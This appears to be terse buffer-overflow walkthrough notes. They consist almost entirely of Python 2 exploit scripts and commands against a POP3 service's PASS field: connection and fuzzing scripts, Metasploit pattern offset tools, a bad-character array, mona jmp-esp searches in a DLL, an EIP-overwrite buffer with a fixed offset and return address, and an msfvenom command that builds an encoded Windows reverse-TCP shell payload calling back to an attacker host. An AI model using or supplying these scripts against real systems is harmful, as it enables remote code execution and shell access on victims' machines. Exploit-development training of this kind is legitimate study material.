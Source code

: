 # bof walkthrough
CONNECT  
#!/usr/bin/python  

import socket  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
try:  
         print "\nSending evil buffer..."  
         s.connect(('IP',PORT))            # connect to IP, port  
         data = s.recv(1024)                     # receive banner  
         print data                              # print banner  
         s.send('USER test' +'\r\n')             # send username "test"  
         data = s.recv(1024)                     # receive reply  
         print data                              # print reply  
         s.send('PASS test\r\n')                 # send password "test"  
         data = s.recv(1024)                     # receive reply  
         print data                              # print reply  
         s.close()                               # close socket  
         print "\nDone!"  
except:  
    print "Could not connect to POP3!"  

FUZZ  


#!/usr/bin/python  
import socket  

#Create an array of buffers, from 1 to 5900 with increments of 200.  
buffer = ["A"]  
counter = 100  
while len(buffer) <= 30:  
    buffer.append("A"*counter)  
    counter=counter+200  

for string in buffer:  
    print "Fuzzing PASS with %s bytes" % len(string)  
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
    connect=s.connect(('IP',PORT))  
    s.recv(1024)  
    s.send('USER test\r\n')  
    s.recv(1024)  
    s.send('PASS ' + string + '\r\n')  
    s.send('QUIT\r\n')  
    s.close()  

Find EIP  
 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700   

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q    

Badchars  

#!/usr/bin/python  
import socket  

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  

badchars = (  
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"  
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"  
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"  
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"  
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"  
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"  
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"  
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"  
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"  
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"  
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"  
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"  
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"  
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"  
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"  
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )  

buffer ="A"*2606 + "B"*4 + badchars  

try:  
    print "\nSending evil buffer..."  
    s.connect(('IP',PORT))  
    data = s.recv(1024)  
    s.send('USER username' +'\r\n')  
    data = s.recv(1024)  
    s.send('PASS ' + buffer + '\r\n')  
    s.close()  
    print "\nDone!"  
except:  
    print "Could not connect to POP3!"  

!mona modules  

jmp esp  

push esp  
retn  

ruby /usr/share/metasploit-framework/tools/nasm_shell.rb  
add eax,12  
jmp eax  

!mona find -s "\xff\xe4" -m slmfc.dll (mona find jmp esp in .dll file)  


#!/usr/bin/python  

import socket  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  

buf = "A" * 2606 + "\x5f\x4a\x35\x8f" + "C" *(3500 - 2606 - 4)  

try:  
    print "\nSending evil buffer..."  
    s.connect(('IP',PORT))  
    data = s.recv(1024)  
    print data  
    s.send('USER test' +'\r\n')  
    data = s.recv(1024)  
    print data  
    s.send('PASS ' + buf + '\r\n')  
    data = s.recv(1024)  
    print data  
    s.close()  
    print "\nDone!"  

except:  
    print "Could not connect to X!"  

 msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"  
